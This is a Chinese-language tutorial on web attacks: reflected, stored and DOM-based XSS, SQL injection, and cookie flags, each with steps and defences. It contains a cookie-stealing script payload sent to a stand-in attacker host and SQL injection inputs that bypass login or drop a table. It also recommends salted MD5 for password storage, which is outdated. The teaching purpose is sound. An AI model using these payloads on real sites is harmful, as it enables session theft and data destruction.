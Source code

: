 ### 一、xss攻击

**XSS 即（Cross Site Scripting）中文名称为：跨站脚本攻击。**XSS的重点不在于跨站点，而在于脚本的执行。那么XSS的原理是：
		恶意攻击者在web页面中会插入一些恶意的script代码。当用户浏览该页面的时候，那么嵌入到web页面中script代码会执行，因此会达到恶意攻击用户的目的。那么XSS攻击最主要有如下分类：反射型、存储型、及 DOM-based型。 反射性和DOM-baseed型可以归类为非持久性XSS攻击。存储型可以归类为持久性XSS攻击。



**反射型XSS**

反射性XSS又可以叫做非持久性XSS，在恶意链接上添加恶意脚本代码，当受害者点击恶意链接url的时候，恶意代码会直接在受害者的主机上的浏览器执行。

因此反射型XSS的攻击步骤如下：

1、攻击者在url后面的参数中加入恶意攻击代码。
2、当用户打开带有恶意代码的URL的时候，网站服务端将恶意代码从URL中取出，拼接在html中并且返回给浏览器端。
3、 用户浏览器接收到响应后执行解析，其中的恶意代码也会被执行到。
4、攻击者通过恶意代码来窃取到用户数据并发送到攻击者的网站。攻击者会获取到比如cookie等信息，然后使用该信息来冒充合法用户
的行为，调用目标网站接口执行攻击等操作。



**存储型XSS**

**存储型XSS的原理是：主要是将恶意代码上传或存储到服务器中，下次只要受害者浏览包含此恶意代码的页面就会执行恶意代码。**

比如我现在做了一个博客网站，然后攻击者在上面发布了一篇文章，内容是如下：<script>window.open("www.gongji.com?param="+document.cookie)</script> 如果我没有对该文章进行任何处理的话，直接存入到数据库中，那么下一次当其他用户访问该文章的时候，服务器会从数据库中读取后然后响应给客户端，那么浏览器就会执行这段脚本，然后攻击者就会获取到用户的cookie，然后会把cookie发送到攻击者的服务器上了。

**因此存储型XSS的攻击步骤如下：**

1、攻击者将恶意代码提交到目标网站数据库中。
2、用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到html中返回给浏览器中。
3、用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
4、那么恶意代码执行后，就能获取到用户数据，比如上面的cookie等信息，那么把该cookie发送到攻击者网站中，那么攻击者拿到该cookie然后会冒充该用户的行为，调用目标网站接口等违法操作。

**如何防范？**
1、后端需要对提交的数据进行过滤。
2、前端也可以做一下处理方式，比如对script标签，将特殊字符替换成HTML编码这些等。



##### DOM-based型XSS

我们客户端的js可以对页面dom节点进行动态的操作，比如插入、修改页面的内容。比如说客户端从URL中提取数据并且在本地执行、如果用户在客户端输入的数据包含了恶意的js脚本的话，但是这些脚本又没有做任何过滤处理的话，那么我们的应用程序就有可能受到DOM-based XSS的攻击。因此DOM型XSS的攻击步骤如下：

1、攻击者构造出特殊的URL、在其中可能包含恶意代码。
2、用户打开带有恶意代码的URL。
3、用户浏览器收到响应后解析执行。前端使用js取出url中的恶意代码并执行。
4、执行时，恶意代码窃取用户数据并发送到攻击者的网站中，那么攻击者网站拿到这些数据去冒充用户的行为操作。调用目标网站接口执行攻击者一些操作。

**DOM XSS 是基于文档对象模型的XSS。一般有如下DOM操作：**
1、使用document.write直接输出数据。
2、使用innerHTML直接输出数据。
3、使用location、location.href、location.replace、iframe.src、document.referer、window.name等这些。
比如如下demo:

```
<script>
  document.body.innerHTML = "<a href='"+url+"'>"+url+"</a>";
</script>
```



##### SQL注入

SQL注入是通过客户端的输入把SQL命令注入到一个应用的数据库中，从而执行恶意的SQL语句。
什么意思呢？我们来打个比方：我们有一个登录框，需要输入用户名和密码对吧，然后我们的密码输入 'or '123' = '123 这样的。
我们在查询用户名和密码是否正确的时候，本来执行的sql语句是：select * from user where username = '' and password = ''. 这样的sql语句，现在我们输入密码是如上这样的，然后我们会通过参数进行拼接，拼接后的sql语句就是：
**select \* from user where username = '' and password = ' ' or '123' = '123 ';** 这样的了，那么会有一个or语句，只要这两个有一个是正确的话，就条件成立，因此 123 = 123 是成立的。因此验证就会被跳过。这只是一个简单的列子，比如还有密码比如是这样的：'; drop table user;, 这样的话，那么sql命令就变成了：
**select \* from user where username = '' and password = ''; drop table user;'** , 那么这个时候我们会把user表直接删除了。

sql被攻击的原因是：sql语句伪造参数，然后对参数进行拼接后形成xss攻击的sql语句。最后会导致数据库被攻击了。

**防范的方法：**
1、我们可以使用预编译语句(PreparedStatement，这样的话即使我们使用sql语句伪造成参数，到了服务端的时候，这个伪造sql语句的参数也只是简单的字符，并不能起到攻击的作用。
2、数据库中密码不应明文存储的，可以对密码使用md5进行加密，为了加大破解成本，所以可以采用加盐的方式。



##### cookie安全策略

在服务器端设置cookie的时候设置 http-only, 这样就可以防止用户通过JS获取cookie。对cookie的读写或发送一般有如下字段进行设置：

**http-only:** 只允许http或https请求读取cookie、JS代码是无法读取cookie的(document.cookie会显示http-only的cookie项被自动过滤掉)。发送请求时自动发送cookie.
**secure-only:** 只允许https请求读取，发送请求时自动发送cookie。
**host-only:** 只允许主机域名与domain设置完成一致的网站才能访问该cookie。



https://www.cnblogs.com/tugenhua0707/p/10909284.html